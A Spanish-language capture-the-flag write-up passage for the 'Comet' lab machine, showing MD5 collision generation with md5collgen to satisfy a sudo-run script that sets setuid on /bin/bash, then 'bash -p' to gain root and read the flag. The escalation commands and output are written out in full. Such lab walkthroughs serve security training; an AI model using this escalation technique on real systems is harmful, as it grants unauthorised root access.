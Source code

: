 Basicamente el script verifica si dos archivos específicos tienen ciertas propiedades y establece el bit setuid para el shell Bash si todas las propiedades se cumplen.

Descargamos un programa para crear un archivo identico al md5 que creamos 
https://github.com/seed-labs/seed-labs/raw/master/category-crypto/Crypto_MD5_Collision/Labsetup/md5collgen

```bash
joe@comet:~$ wget https://github.com/seed-labs/seed-labs/raw/master/category-crypto/Crypto_MD5_Collision/Labsetup/md5collgen

Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3338360 (3.2M) [application/octet-stream]
Saving to: ‘md5collgen’

md5collgen                                     100%[====================================================================================================>]   3.18M  --.-KB/s    in 0.04s   

2023-03-27 17:05:50 (81.5 MB/s) - ‘md5collgen’ saved [3338360/3338360]

joe@comet:~$ chmod +x md5collgen

joe@comet:~$ echo HMV > file1

joe@comet:~$ ./md5collgen file1 
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: 'msg1.bin' and 'msg2.bin'
Using prefixfile: 'file1'
Using initial value: 66fdfd128fcadfc4946a54c7a85dc86d

Generating first block: ..............................................................................................................
Generating second block: S00..........
Running time: 108.26 s
```

```bash
joe@comet:~$ rm file1 
joe@comet:~$ mv msg1.bin file1
joe@comet:~$ mv msg2.bin file2
joe@comet:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
joe@comet:~$ sudo /bin/bash /home/joe/coll
joe@comet:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Vemos que funciono entonces solo nos queda subir de privilegios

```bash
joe@comet:~$ bash -p
bash-5.1# id
uid=1000(joe) gid=1000(joe) euid=0(root) egid=0(root) groups=0(root),1000(joe)
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
*******************1c0d869e2e40c
```

Y de esta manera terminamos la maquina de Comet